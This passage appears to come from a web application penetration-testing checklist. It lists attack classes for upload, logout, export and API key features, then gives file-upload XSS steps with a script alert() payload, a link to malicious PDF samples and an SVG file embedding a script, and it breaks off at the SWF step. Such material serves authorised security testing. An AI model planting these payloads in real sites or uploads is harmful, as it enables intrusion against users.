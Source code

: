    * [Missing Old Password Validation](#missing-old-password-validation)
   * [Insecure Direct Object Reference (IDOR)](#insecure-direct-object-reference-idor)
   * [Account Takeover](#account-takeover-1)
   * [Sensitive Information Disclosure](#sensitive-information-disclosure)
* [Logout](#logout)
   * [Missing Session Expiration](#missing-session-expiration)
   * [Unvalidated Redirect](#unvalidated-redirect-1)
* [Export Function](#export-function)
   * [Formula Injection](#formula-injection)
   * [Application Denial-of-Service (DoS)](#application-denial-of-service-dos)
   * [Insecure Storage of Exports](#insecure-storage-of-exports)
   * [Arbitrary File Download](#arbitrary-file-download)
* [Google Maps](#google-maps)
   * [Abuse of Google Maps API Key for Financial Damage](#abuse-of-google-maps-api-key-for-financial-damage)
* [API Keys Management Page](#api-keys-management-page)
   * [Private Key Disclosure](#private-key-disclosure)
   * [Insecure Direct Object Reference (IDOR)](#insecure-direct-object-reference-idor-1)
   * [Persistent API Keys](#persistent-api-keys)
* [To Do](#to-do)

  <br><br>

# File Upload

## Cross-Site Scripting (XSS)

1. Upload file containing JavaScript (XSS) payload - usually HTML extensions
```
<script>alert()</script>
```
2. Upload PDF file<br>

https://github.com/luigigubello/PayloadsAllThePDFs/blob/main/PDF%20Files/payload1.pdf


3. Upload ```.SVG, .XML, .XSD, .XMP, .XSLT, .XHTML``` Files:
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg
   xmlns:svg="http://www.w3.org/2000/svg"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:xlink="http://www.w3.org/1999/xlink"
   style="overflow: hidden; position: relative;"
   width="300"
   height="200">

  <image
 	x="10"
 	y="10"
 	width="276"
 	height="110"
 	xlink:href="https://google.com"
 	stroke-width="1"
 	id="image3204" />
  <rect
 	x="0"
 	y="150"
 	height="10"
 	width="300"
 	style="fill: black"/>
<script>alert()</script>
</svg>
```
4. Compile and Upload SWF file: <br>